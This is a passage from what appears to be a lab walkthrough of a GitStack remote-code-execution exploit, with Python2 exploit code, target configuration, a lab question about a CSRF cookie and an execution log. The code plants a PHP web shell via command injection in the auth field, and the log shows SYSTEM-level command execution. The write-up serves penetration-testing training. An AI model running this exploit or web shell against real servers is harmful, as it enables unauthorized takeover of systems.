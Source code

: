 We can see from the formatting that this is python2.

Let's go ahead and add a shebang to the first line of the exploit.

```py
#!/usr/bin/python2
```

Now we can execute without having to say python2 before the script. First though, let's configure the exploit for usage.

```py
ip = '192.168.1.102'

# What command you want to execute
command = "whoami"
```

Whoami will work for testing, we want to switch the ip to our target we are exploiting.

```py
print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/exploit.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

We can see that the exploit will also create a shell for us, switch the exploit.php to exploit-USERNAME.php in both requests since this is a network.

**1) What is the name of the cookie set in the POST request made on line 74 (line 73 if you didn't add the shebang) of the exploit?**

```
r = requests.post("http://{}/rest/repository/".format(ip), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
```

We can find the cookie set.

## Task 20: [Git Server] Exploitation

Now that we have found and modified our exploit, it's time to attack.

```
./43777.py              
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```
